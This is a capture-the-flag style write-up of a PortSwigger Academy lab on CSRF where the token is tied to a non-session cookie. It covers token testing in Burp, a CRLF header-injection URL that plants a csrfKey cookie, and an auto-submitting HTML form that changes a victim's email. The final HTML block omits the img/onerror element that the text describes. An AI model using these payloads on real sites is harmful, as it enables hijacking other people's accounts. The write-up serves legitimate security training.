

### CSRF where token is tied to non-session cookie : PRACTITIONER

---

Given credentials `wiener:peter` and `carlos:montoya`.
- The goal is to change the email of the victim using a CSRF attack.
- The CSRF tokens in place are not tied to the session.

Logging in with the given credentials.


We see this page.


We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.


We see there is a `csrfKey` cookie and a `csrf` parameter.
- We need to test how these operate.

1. Test if we can change the `csrf` token


2. Test if we can place the `csrf` token of another user.

> To do that, login as carlos in another window and obtain the `csrf` key.


- Copying the `csrf` parameter : `36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk`.

Place it into the parameter in the `POST` request.


3. Test if we can take the `csrfKey` cookie and `csrf` token parameter from another user, so it works without verifying the session cookie, and placing this combination for another user.

To do that, login as carlos in another window and open the cookies.


Copying the `csrfKey` : `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.
- Entering in the `POST` request the `csrfKey` and `csrf` parameter of the other user and trying to change the email of the wiener user.



It works.

Therefore, in order to conduct an attack, we need to construct an HTML payload that contains the 2 parameters `email` and `csrf`.
- However, we need to be able to set the cookie.
- To do that, we can use the search functionality on the website.


Capturing the `GET` request after searching using HTTP history.


> There is a `Set-Cookie` header being used to create a new cookie.

Therefore, we can play with this request to add another cookie, letting it be called `csrfKey` and setting its value to the one we found above `IBuIZ44nmISVeACecCzxOeLyT1YIxL9p`.

- To do that, we can add HTML headers through the URL.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- However, we need to URL encode this payload.
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

Adding this payload at the end of the `GET` request above.


We see that we added our own `csrfKey` cookie.
- This means that we can inject our own cookies.
- The next step, is to incorporate this payload into the HTML payload.

> This is the normal payload we used in previous labs.
```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

This will change, because we need to add the payload to add the `csrfKey` cookie.

```HTML
<html> 
	<body> 
		<form action="https://0ac300f804afc620825233f6008700d8.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="36xWkR6Qt7lkp3iFgB7i7pBUxebEycWk" />
		</form> 
		
	</body> 
</html>
```

We added an image that loads a page with the URL of the `GET` request above that we modified to set the cookie.
- Getting the host and path from the `GET` request to create the full URL that is placed in the `src` attribute.
- This link gets loaded, but since it isn't a valid image, after it gets loaded, the `onerror` attribute submits the form, completing the action.

Adding this to exploit server, then storing and delivering to victim completes the lab.

---

